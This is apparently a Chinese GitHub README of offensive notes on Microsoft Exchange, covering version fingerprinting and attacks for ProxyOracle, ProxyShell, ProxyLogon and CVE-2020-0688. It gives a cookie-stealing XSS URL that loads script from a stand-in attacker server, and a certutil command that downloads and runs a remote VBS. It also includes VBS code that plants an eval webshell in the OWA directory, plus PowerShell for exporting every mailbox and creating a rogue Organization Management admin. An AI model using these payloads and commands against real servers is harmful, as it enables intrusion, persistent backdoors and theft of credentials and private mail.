 # Exchange学习

整理和自己写了一些exchange的脚本

## CheckInfo

基于exchange版本和补丁日期检测漏洞

### 版本识别

1. 通过 `owa` 接口，获取短版本信息

2. 通过 `/ecp/Current/exporttool/microsoft.exchange.ediscovery.exporttool.application` 接口获取完整版本信息

3. 通过 `/owa/service`, `/owa` 接口响应头 X-OWA-Version获取完整版本

4. 爆破 `/ecp/{version}/exporttool/` 最后一位，获取完整版本

### 漏洞检测
参考[这篇文章](https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-Exchange%E7%89%88%E6%9C%AC%E6%8E%A2%E6%B5%8B%E5%92%8C%E6%BC%8F%E6%B4%9E%E6%A3%80%E6%B5%8B)，根据https://learn.microsoft.com/en-us/Exchange/new-features/build-numbers-and-release-dates?view=exchserver-2019匹配版本和日期识别漏洞

新增CVE-2022-41082
## NtmlLoginEWS

checkLogin 支持明文密码和ntlm登录，参考[这篇文章](https://github.com/3gstudent/Homework-of-Python/blob/master/checkEWS.py)修改的脚本，更简洁明了

## 漏洞利用

### ProxyOracle

#### 打法

1. xss打cookie  https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};alert(document.cookie)//

https://192.168.52.149/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.head.appendChild(document.createElement(/script/.source)).src=/https:\/\/OurXssServer.com\/index.js/.source//  利用dnslog平台打cookie


参考 https://www.4hou.com/posts/lEOM 

2. PaddingOracle 解密明文

大致原理看文章

参考 

https://hosch3n.github.io/2021/08/10/PaddingOracle%E6%94%BB%E5%87%BB%E5%8E%9F%E7%90%86/

https://paper.seebug.org/1123/

https://github.com/hosch3n/ProxyVulns

```python
# 必然存在一个guess_iv[-1]值符合
guess_iv[-1] ^ middle[-1] = 0x01
# 根据异或可逆性反推出真实中间值middle[-1]
middle[-1] = guess_iv[-1] ^ 0x01
# 得到真实中间值middle[-1]后，与原本的iv[-1]算出真实的明文plain[-1]
plain[-1] = iv[-1] ^ middle[-1]
```

cadata字段是用AES-CBC加密的"Basic " + ToBase64String(UserName + ":" + Password)

由于IV是RSA加密，但前12个字节固定，所以后4个字节无法得到，就无法得到账号前2位

![PaddingOracle](./img/pic1.png)

### ProxyShell

#### 打法

https://github.com/ktecv2000/ProxyShell

可以直接修改204行payload 为蚁剑马 直接连接

![ProxyShell](./img/pic2.png)

https://github.com/dmaasland/proxyshell-poc
https://github.com/Ridter/proxyshell_payload

先生成payload，然后修改proxyshell_rce.py 314行可以写马

![ProxyShell](./img/pic3.png)

这个洞SSRF 访问到后端的接口，但是默认是System权限，但是 Exchange PowerShell Remoting接口是针对域用户的，所以SYSTEM权限需要鉴权到邮箱用户的权限，一般来讲默认域用户都是有Exchange PowerShell Remoting权限的，所以到这一步一般任意的域用户就可以了。 但是如过想从草稿箱中导出文件，需要用户有邮箱存在，而且需要用户在exchage mailbox import export 组中，一般的像administraotr@xxx.xx邮箱，域管直接就冲了， 但是如果没激活的话只能找导出组中的用户，或者Organization Management组中用户将任意用户加入mailbox import export 组中。 如果邮箱权限没设太死的话，其实也可以用那个exchage mailbox import export 组中的邮箱导出其他人的邮箱（说不定可以偷邮件看）。 然后New-ManagementRoleAssignment 把用户加到exchage mailbox import export 组 从用户的草稿箱把webshell导出来(还可以通过证书导出，不需要New-ManagementRoleAssignment命令)

#### 坑点

报这个"............New-ManagementRoleAssignment ........."就说明部不是Organization Management组不能执行命令，但是其实只要是mailbox import export组就好了，但是因为exp 是每次先加再导出，所以有可能还能打 报 ".....................New-MailboxExportRequest........................"就说明不是mailbox import export组里的，大概率邮件写入草稿箱但是无法导出来，这时候需要找个导出组的邮箱或者想办法加进去

### ProxyLogon

https://github.com/sirpedrotavares/Proxylogon-exploit

### CVE-2020-0688

有回显 https://github.com/zcgonvh/CVE-2020-0688

无回显 https://github.com/Yt1g3r/CVE-2020-0688_EXP

无回显写shell 
1. 先下载vbs  python .\CVE-2020-0688_EXP.py  -s https://192.168.52.149 -u "xx" -p "xxx" -c "cmd.exe /c certutil -urlcache -split -f http://vsp/1.txt C:\windows\temp\test.vbs"
2. 执行vbs python .\CVE-2020-0688_EXP.py  -s https://192.168.52.149 -u "xx" -p "xxx" -c "cmd.exe /c C:\windows\temp\test.vbs"



```vbs
Set shell = CreateObject("Shell.Application")
webshell = "<script language='JScript' runat='server'>function Page_Load(){eval(Request['cmd'],'unsafe');}</script>"
Set oShell = CreateObject( "WScript.Shell" )
path =oShell.ExpandEnvironmentStrings("%ExchangeInstallPath%")
set fs =CreateObject("Scripting.FileSystemObject")
set ts =fs.OpenTextFile(path + "FrontEnd/HttpProxy/owa/auth/test.aspx",2,True)
ts.Write webshell
ts.close
```

## exchange管理


参考链接 https://3gstudent.github.io/%E6%B8%97%E9%80%8F%E5%9F%BA%E7%A1%80-%E4%BB%8EExchange%E6%9C%8D%E5%8A%A1%E5%99%A8%E4%B8%8A%E6%90%9C%E7%B4%A2%E5%92%8C%E5%AF%BC%E5%87%BA%E9%82%AE%E4%BB%B6


不同exchange版本管理单元名称不同

Exchange 2007: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.Admin;
Exchange 2010: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010;
Exchange 2013 & 2016: Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;


远程管理
``` powershell
$User = "test\administrator"
$Pass = ConvertTo-SecureString -AsPlainText DomainAdmin123! -Force
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList $User,$Pass
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri http://Exchange01.test.com/PowerShell/ -Authentication Kerberos -Credential $Credential
Import-PSSession $Session -AllowClobber
```
其他命令

```powershell
Get-Mailbox 获得所有邮箱用户
Get-OrganizationalUnit 获取所有OU
New-ManagementRoleAssignment –Role "Mailbox Import Export" –User Administrator  添加用户到导出组
New-MailboxexportRequest -mailbox administrator -FilePath ("\\localhost\c$\test.pst") 导出用户邮件到exchange服务器
Get-Mailbox -OrganizationalUnit Users -Resultsize unlimited |%{New-MailboxexportRequest -mailbox $_.name -FilePath ("\\localhost\c$\test\"+($_.name)+".pst")}  导出所有邮件，保存到Exchange服务器的c:\test
powershell -c "Add-PSSnapin Microsoft.Exchange.Management.PowerShell.SnapIn;$pwd=convertto-securestring Password123 -asplaintext -force;New-Mailbox -UserPrincipalName testuser1@test.com -OrganizationalUnit test.com/Users -Alias testuser1 -Name testuser1 -DisplayName testuser1 -Password $pwd;Add-RoleGroupMember \"Organization Management\" -Member testuser1 -BypassSecurityGroupManagerCheck"  命令行下添加管理员用户
```


邮件内容搜索  https://github.com/3gstudent/Homework-of-Powershell/blob/master/UsePSSessionToSearchMailfromExchange.ps1

导出用户test1的特定邮件到exchange服务器c:\test下 https://github.com/3gstudent/Homework-of-Powershell/blob/master/DirectExportMailfromExchange.ps1

